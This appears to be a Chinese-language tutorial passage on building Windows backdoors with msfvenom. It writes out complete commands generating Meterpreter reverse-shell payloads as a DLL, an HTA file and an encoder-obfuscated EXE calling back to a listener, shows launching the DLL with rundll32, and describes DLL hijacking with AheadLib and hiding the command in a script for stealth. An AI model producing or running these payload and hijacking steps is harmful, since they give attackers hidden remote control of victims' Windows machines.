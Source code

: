 

### windows-dll

```
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=dll    # file format
payload=windows/meterpreter/reverse_tcp
out=../../backdoors/meter_re_.dll
msfvenom -p $payload lhost=$ip lport=$port -f $format -a $arch --platform $platform -o $out
```

windows运行dll文件：

```
rundll32 C:\Users\John\Desktop\meter_re_.dll DllEntryPoint   
# 这里的dllentrypoint是入口函数，在ida中可以看到，当然为了更加的隐蔽，可以将这个命令写入一个脚本文件当中。
# 当然还有更好的方法就是直接将这个dll文件的文件名替换为正常的软件的dll的文件名，这样这个软件启动的时候就会调用这个dll文件了，这就叫做dll文件的劫持
```



### dll劫持

核心思想是使用我们伪造一个与指定软件中dll相同的文件名，将原始的dll改为其它的，然后该软件只要一调用该动态dll动态链接库时，就会先去调用我们的dll，然后我们的dll再去调用原始的dll即可。这里使用的工具是AheadLib工具，https://github.com/Yonsm/AheadLib。

如：一个计算机calc.exe需要调用一个div.dll来执行除法运算，我们可以将我们的木马定义为div.dll，再将原来的div.dll文件名更改为divOrg.dll，这样calc在调用除法运算dll时就会触发我们的木马。



### hta

生成hta木马文件,hta=html application

```
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=hta-psh    # file format
payload=windows/meterpreter/reverse_tcp
out=../../backdoors/meter_re_x86.hta
msfvenom -p $payload lhost=$ip lport=$port -f $format -a $arch --platform $platform -o $out
```



### 混淆

使用`msfvenom -l encoder`可以查看所支持的编码器。

```shell
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=exe
encoder=x86/shikata_ga_nai # encode type
i=3 # encode times
payload=windows/meterpreter/reverse_tcp
out=/root/msf-script/backdoors/meter_re_x86_encoder.exe
msfvenom -p $payload lhost=$ip lport=$port -f $format -e $encoder -i $i $format -a $arch --platform $platform -o $out
```
